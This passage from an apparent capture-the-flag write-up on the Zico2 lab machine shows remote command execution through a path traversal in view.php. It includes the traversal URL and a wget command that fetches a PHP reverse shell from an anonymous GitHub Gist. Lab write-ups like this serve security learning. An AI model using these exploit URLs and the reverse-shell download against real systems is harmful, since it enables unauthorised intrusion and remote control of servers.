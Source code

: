 ![Now We're Getting Serious](/images/posts/zico2-rce-db-create.png)

And now we can execute shell commands on the web from the gallery page using parameters like this.

```
http://192.168.0.110/view.php?page=../../../../../../usr/databases/cmd.php&cmd=ls%20-alh
```

![The Result](/images/posts/zico2-rce-db-view.png)

I uploaded a PHP reverse shell script as a secret anonymous Gist on GitHub at this URL to connect to my machine's IP address.

```
https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php
```

I tried to download the PHP reverse shell script to Zico's machine using `wget` from the SQLite database I created earlier.

```
http://192.168.0.110/view.php?page=../../../../../../usr/databases/cmd.php&cmd=wget%20https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php
```
